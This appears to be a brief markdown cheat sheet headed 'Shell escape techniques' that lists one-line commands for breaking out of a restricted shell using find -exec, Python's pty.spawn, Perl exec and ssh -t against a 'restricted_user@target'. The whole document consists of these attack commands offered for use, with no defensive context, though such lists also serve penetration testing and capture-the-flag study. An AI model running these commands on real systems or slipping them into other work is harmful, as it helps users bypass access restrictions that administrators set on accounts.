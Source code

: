 ## Shell escape techniques
	Utilizing binaries such as vi, vim, nmap, man, etc...

## Find
	#only works if file test exists in path /home/bob
	find /home/bob -name test -exec /bin/sh \; 

## Python
	python -c 'import pty;pty.spawn("/bin/bash")'
	python -c 'import pty;pty.spawn("/bin/sh")'
## Perl
	perl -e 'exec "/bin/bash";'
	perl -e 'exec "/bin/sh";'

## SSH
	ssh restricted_user@target -t "/bin/sh"
	ssh restricted_user@target -t "/bin/bash"